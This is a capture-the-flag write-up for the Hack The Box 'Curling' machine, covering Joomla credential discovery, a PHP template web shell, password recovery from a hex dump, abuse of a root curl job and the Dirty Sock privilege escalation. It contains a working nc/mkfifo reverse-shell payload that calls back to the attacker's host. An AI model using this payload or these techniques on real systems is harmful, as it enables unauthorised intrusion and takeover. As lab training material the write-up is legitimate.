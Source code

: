 ```yaml
---
layout: post
title: Hack The Box - Curling
categories: hack-the-box
tags: [Linux, Web, Joomla, RCE, ssh]
image: /hackthebox/curling/0.png
---
```

### Quick Summary
#### Hey guys today Curling retired and here is my write-up about it. I had a lot of fun doing this box as it was easy and simple. Also it was straightforward , no rabbit holes and such things. It's a linux box and its ip is `10.10.10.150` I added it to `/etc/hosts` as `curling.htb`. Let's jump right in !
![](/images/hackthebox/curling/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC curling.htb`
![](/images/hackthebox/curling/1.png)
#### We only get 2 open ports , 80 running http and 22 running ssh. Let's look at http.
<br>
<hr>
### HTTP Initial Enumeration
![](/images/hackthebox/curling/2.png)
#### We see a blog titled "Cewl Curling site!" , and it's [joomla](https://www.joomla.org/). At this point I would run `joomscan` but I wanted to do some manual enumeration first , so I checked the source of the page and at the end of the body I found this comment :
![](/images/hackthebox/curling/3.png)
#### So I checked `/secret.txt` and found this `base64` string :
![](/images/hackthebox/curling/4.png)
#### Decoding :
![](/images/hackthebox/curling/5.png)
#### `Curling2018!` we can use that as a password. But what is the username ? If we take a look at the main page again and read the posts :
![](/images/hackthebox/curling/6.png)
#### We will notice a name in one of the posts : `Floris` , now we can try to login as `floris` with the password `Curling2018!` :
![](/images/hackthebox/curling/7.png)
<br>
<br>
![](/images/hackthebox/curling/8.png)
#### And it worked. While I was doing this enumeration I ran gobuster in the background and got these results :
```
/.htpasswd (Status: 403)
/.hta (Status: 403)
/administrator (Status: 301)
/.htaccess (Status: 403)
/bin (Status: 301)
/cache (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
```
#### Let's go to `/administrator` and login to the administration panel :
![](/images/hackthebox/curling/9.png)
<br>
<br>
![](/images/hackthebox/curling/10.png)
<br>
<br>
![](/images/hackthebox/curling/11.png)
<hr>
### Editing Template Files and Getting a Reverse Shell :
#### On the configuration section there's an option for templates :
![](/images/hackthebox/curling/12.png)
#### By going to that we notice that protostar is the default style and template :
![](/images/hackthebox/curling/13.png)
<br>
<br>
![](/images/hackthebox/curling/14.png)
#### From templates we will go to `Protostar Details and Files` and create a new `php` file :
![](/images/hackthebox/curling/15.png)
<br>
<br>
![](/images/hackthebox/curling/16.png)
#### In the php file we will execute a system command to get a reverse shell :
```
<?php
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f');
?>
```
![](/images/hackthebox/curling/17.png)
#### After we save the file we will go to `http://curling.htb/templates/protostar/file.php`
![](/images/hackthebox/curling/18.png)
#### Then we check our listener :
![](/images/hackthebox/curling/19.png)
<hr>
### User
#### We got a reverse shell as `www-data` , in the `/home` directory there's a directory for `floris` :
![](/images/hackthebox/curling/20.png)
#### We don't have read access to `user.txt` , but we notice a file called `password_backup` , by looking at that file :
![](/images/hackthebox/curling/21.png)
#### It's a `hex dump` file , So I copied it to my box to reverse it :
![](/images/hackthebox/curling/22.png)
#### To reverse a `hex dump` file we will use `xxd` , so `xxd -r pw_backup` :
![](/images/hackthebox/curling/23.png)
#### Not a normal output , let's redirect the output to a file and see :
![](/images/hackthebox/curling/24.png)
#### So what happened is , it turned out to be a `bzip2` file so I decompressed it then got a new `gzip` file , decompressed it and got another `bzip2` file , after decompression I got a `tar` file , then finally a `txt` file for the password :
![](/images/hackthebox/curling/25.png)
#### Let's `ssh` as `floris` :
![](/images/hackthebox/curling/26.png)
#### And we owned user !
<br>
<hr>
### Curling 
#### By looking at the `/home` directory of `floris` again :
![](/images/hackthebox/curling/27.png)
#### There's a directory called `admin-area` which contains two files :
![](/images/hackthebox/curling/28.png)
#### `input` and `report`
#### `input` :
![](/images/hackthebox/curling/29.png)
#### `url = "http://127.0.0.1"`
#### `report` :
![](/images/hackthebox/curling/30.png)
#### It's obvious that this is the output of executing `curl` on `http://127.0.0.1` :
![](/images/hackthebox/curling/31.png)
#### Even the name of the box is a hint `curling` , so what about changing that `url` from `localhost` to something else like a file ? Next time the command gets executed we will get the contents of that file , maybe `root.txt` ? But only if it's getting executed by `root`. Let's try and see if it will work :
![](/images/hackthebox/curling/32.png)
#### Then we will do : `watch cat report` , this is executing `cat report` every 2 seconds and giving us the output , easier than checking manually :
![](/images/hackthebox/curling/33.png)
#### After some time we get the flag.
<br>
<hr>
### Dirty Sock ? Root shell !
#### I didn't like the fact that I could only read the flag , I wanted a `root` shell. So I tried for a long time to bypass the `url` thing and get a reverse shell , but couldn't. Then when I did this box again for the write-up , one of the things that caught my attention is that we are on an `ubuntu` box , so I checked `snap` version to know if it's vulnerable to `CVE-2019-7304` known as `Dirty Sock` and of course it was :
![](/images/hackthebox/curling/34.png)
#### This is not intended at all because by the time this box was released ,  `CVE-2019-7304` wasn't disclosed yet.
#### I got the exploit from [here](https://github.com/initstring/dirty_sock) , Then hosted it on a python simple http server and downloaded it on the box :
![](/images/hackthebox/curling/35.png)
`python3 dirty_sockv2.py`
![](/images/hackthebox/curling/36.png)
#### Now we can `su` to `dirty_sock` and execute commands as root :
![](/images/hackthebox/curling/37.png)
#### Or just `sudo su` and we will get a root shell :
![](/images/hackthebox/curling/38.png)
#### We owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Frolic](/hack-the-box/frolic/)
#### Next Hack The Box write-up : [Hack The Box - Vault](/hack-the-box/vault/)
<hr>
